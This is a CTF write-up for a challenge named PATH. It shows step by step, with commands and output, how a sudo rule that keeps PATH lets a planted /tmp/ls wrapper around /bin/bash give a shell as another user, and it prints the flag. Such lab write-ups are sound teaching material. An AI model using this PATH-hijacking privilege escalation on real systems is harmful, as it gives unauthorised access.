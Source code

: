 # PATH

## Write-Up

When entering the instance, we can find the `flag.txt` in the currect directory, we will find also a shell script `my_ls` :

```
ctf@path-57568c5f85-czp5h:~$ ls -l
total 8
-r--r----- 1 root ctf-cracked 40 Dec 20 18:44 flag.txt
-r-xr-xr-x 1 root root        21 Dec 20 18:44 my_ls
ctf@path-57568c5f85-czp5h:~$ cat my_ls
#!/bin/bash

ls -alh
```

It seems like our `my_ls` script is executing `ls` command.

Also when trying to read the `flag.txt`, unfortunatly, we can't read it. First thing to do is to check for sudo priviledges for our user :

```
ctf@path-57568c5f85-czp5h:~$ sudo -l
[sudo] password for ctf: 
Matching Defaults entries for ctf on path-57568c5f85-czp5h:
    env_reset, mail_badpass, env_keep+=PATH

User ctf may run the following commands on path-57568c5f85-czp5h:
    (ctf-cracked) /home/ctf/my_ls

```

Let's try to execute the `my_ls` script :

```
ctf@path-57568c5f85-czp5h:~$ sudo -u ctf-cracked ./my_ls 
total 28K
drwxr-xr-x 1 root root        4.0K Dec 24 16:22 .
drwxr-xr-x 1 root root        4.0K Dec 24 16:22 ..
-rw-r--r-- 1 root root         220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 root root        3.7K Jan  6  2022 .bashrc
-rw-r--r-- 1 root root         807 Jan  6  2022 .profile
-r--r----- 1 root ctf-cracked   40 Dec 20 18:44 flag.txt
-r-xr-xr-x 1 root root          21 Dec 20 18:44 my_ls

```

Nothing new, it just list content of current directory (it doesn't take arguments).


We can also try to check for what we can do with `suid` rights :

```
ctf@path-57568c5f85-czp5h:~$ find / -perm -u=s -type f
find: ‘/run/lock’: Permission denied
find: ‘/run/sudo’: Permission denied
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/chfn
/usr/bin/su
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```


Now, moving on to the Now, moving on to the solution, and since the challenge is named `PATH`, Let's try to do some **Linux Privilege Escalation Using PATH Variable**. First, let's see the content of `$PATH` variable :

```
ctf@path-57568c5f85-czp5h:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Now, let's see if this variable is writable :

```

ctf@path-57568c5f85-czp5h:~$ PATH=""
ctf@path-57568c5f85-czp5h:~$ echo $PATH

ctf@path-57568c5f85-czp5h:~$ PATH=".:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
"
ctf@path-57568c5f85-czp5h:~$ echo $PATH
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
ctf@path-57568c5f85-czp5h:~$ export PATH=$PATH
```

Indeed, we can modify the content of the `PATH` variable and add other paths to the directories we like.

So, for the solution, let's try to use the `my_ls` script and this `PATH` vulnerability to do a Privilege Escalation. The main idea is to create a new `ls` command that actually pops a shell when it is executed. and to make it priviledged from the usual `ls` (since after trying, we can't write in the `/bin` folder, i.e modify original one), by adding a new path to a folder, that we can write and modify : `/tmp`.

```
ctf@path-57568c5f85-czp5h:~$ cd /tmp
ctf@path-57568c5f85-czp5h:/tmp$ echo "/bin/bash" > ls
ctf@path-57568c5f85-czp5h:/tmp$ chmod 777 ls
ctf@path-57568c5f85-czp5h:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
ctf@path-57568c5f85-czp5h:/tmp$ export PATH=/tmp:$PATH
ctf@path-57568c5f85-czp5h:/tmp$ cd /home/ctf/
ctf@path-57568c5f85-czp5h:~$ sudo -u ctf-cracked ./my_ls
[sudo] password for ctf
ctf-cracked@path-57568c5f85-czp5h:/home/ctf$ whoami
ctf-cracked
ctf-cracked@path-57568c5f85-czp5h:/home/ctf$ cat flag.txt
shellmates{R3l47iV3_P4TH_4R3_Dan9eRou$}
ctf-cracked@path-57568c5f85-czp5h:/home/ctf$ exit
```

## Flag

shellmates{R3l47iV3_P4TH_4R3_Dan9eRou$}

## More Information

Linux Privilege Escalation Using PATH Variable : https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/ => **Echo Command -1st Technique to spawn root privilege**